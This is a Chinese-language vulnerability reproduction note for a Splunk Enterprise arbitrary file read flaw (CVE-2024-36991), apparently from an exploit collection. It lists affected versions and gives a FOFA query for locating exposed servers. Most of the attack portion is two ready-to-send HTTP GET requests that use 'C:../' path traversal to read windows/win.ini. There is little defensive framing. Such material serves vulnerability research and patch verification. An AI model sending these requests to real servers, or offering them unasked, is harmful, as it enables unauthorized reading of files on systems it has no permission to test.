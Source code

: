 # Splunk Enterprise任意文件读取漏洞(CVE-2024-36991)

# 一、漏洞简介
Splunk是美国Splunk公司的一套数据收集分析软件。该软件主要用于收集、索引和分析及其所产生的数据，包括所有IT系统和基础结构（物理、虚拟机和云）生成的数据。Splunk存在安全漏洞。攻击者利用该漏洞可以访问存储在web根文件夹之外的文件和目录。

# 二、影响版本
+ 9.2<=Splunk Enterprise<9.2.2
+ 9.1<=Splunk Enterprise<9.1.5
+ 9.0<=Splunk Enterprise<9.0.10

# 三、资产测绘
+ fofa`app="splunk-Enterprise"`
+ 特征

![1720273720505-3af79a8c-bd30-41f5-b5fb-44ae246c02f3.png](./img/MgsperMvGBWWALbV/1720273720505-3af79a8c-bd30-41f5-b5fb-44ae246c02f3-225104.png)

# 四、漏洞复现
```http
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../windows/win.ini HTTP/1.1
Host: 
Accept-Encoding:gzip,deflate,br
Accept:*/*
Accept-Language:en-US;q=0.9,en;q=0.8
User-Agent:Mozilla/5.0(WindowsNT10.0;Win64;x64)AppleWebKit/537.36(KHTML,likeGecko)Chrome/124.0.6367.118Safari/537.36
Connection:close
Cache-Control:max-age=0
```

![1720273759529-a759e825-7b31-4472-9ef7-19625d1b6ab5.png](./img/MgsperMvGBWWALbV/1720273759529-a759e825-7b31-4472-9ef7-19625d1b6ab5-430061.png)

```http
GET /zh-CN/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../windows/win.ini HTTP/1.1
Host: 
Accept-Encoding:gzip,deflate,br
Accept:*/*
Accept-Language:en-US;q=0.9,en;q=0.8
User-Agent:Mozilla/5.0(WindowsNT10.0;Win64;x64)AppleWebKit/537.36(KHTML,likeGecko)Chrome/124.0.6367.118Safari/537.36
Connection:close
Cache-Control:max-age=0
```

![1720273792757-5a47a5df-5caf-4007-a33b-0248ab13a19d.png](./img/MgsperMvGBWWALbV/1720273792757-5a47a5df-5caf-4007-a33b-0248ab13a19d-711831.png)



> 更新: 2024-09-05 23:24:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ovx0hur1ngmfy7f9>